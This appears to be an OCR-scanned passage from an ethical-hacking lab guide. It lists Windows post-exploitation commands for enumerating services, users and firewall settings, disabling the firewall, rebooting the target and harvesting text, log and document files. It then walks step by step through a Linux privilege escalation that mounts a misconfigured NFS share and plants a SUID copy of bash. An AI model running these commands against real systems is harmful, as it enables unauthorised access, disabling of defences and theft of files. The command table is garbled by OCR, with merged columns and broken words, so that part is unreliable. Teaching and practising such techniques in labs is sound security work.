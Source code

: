     Type: dir /a:h ( To to retrieve the directory names with hidden attributes.) 

    Type: sc queryex type=service state=all (to list all the available services) 

    Type: netsh firewall show state  

    Type: netsh firewall show config  

    Type: wmic /node:"" product get name,version,vendor 

    Type: wmic cpu get 

    Type: wmic useraccount get name,sid 

    Type: wmic os where Primary='TRUE' reboot (to reboot the target system.) 

    Apart from the aforementioned post exploitation commands, you can also use the following additional commands to perform more operations on the target system:  

 
Post Exploitation Command net start or sto netsh advfirewall set currentprofile state off netsh advfirewall set allprofiles state off Description Starts/sto s a network service Turn off firewall service for current profile Turn off firewall service for all profiles findstr /E ".txt" > txt.txt findstr /E 'i.log" > log.txt findstr /E ".doc" > doc.txt Post Escalating Privileges Retrieves all the text files (needs privileged access) Retrieves all the log files Retrieves all the document files

 

 

    Observe that the Meterpreter session also dies as soon as you shut down the victim machine. 

 

 

 

 

Task 4: Escalate Privileges in Linux Machine by Exploiting Misconfigured NFS 

 

    Parrot : nmap –sV <target_ip> 

    Port 2049 is open and nfs service is running on it. 

    Terminal : sudo apt-get install nfs-common 

    Type showmount -e <t_ip> and press Enter, to check if any share is available for mount in the target machine. 

    We can see that the home directory is mountable. 

    Type mkdir /tmp/nfs and press Enter to create nfs directory. 

    Type sudo mount -t nfs <T_ip>:/home /tmp/nfs in the terminal and press Enter to mount the nfs directory on the target machine. 

    Type cd /tmp/nfs and press Enter to navigate to nfs folder.  

    Type sudo cp /bin/bash . in the terminal and press Enter. 

    In the terminal, type sudo chmod +s bash and press Enter.  

    Type ls -la bash and press Enter. 
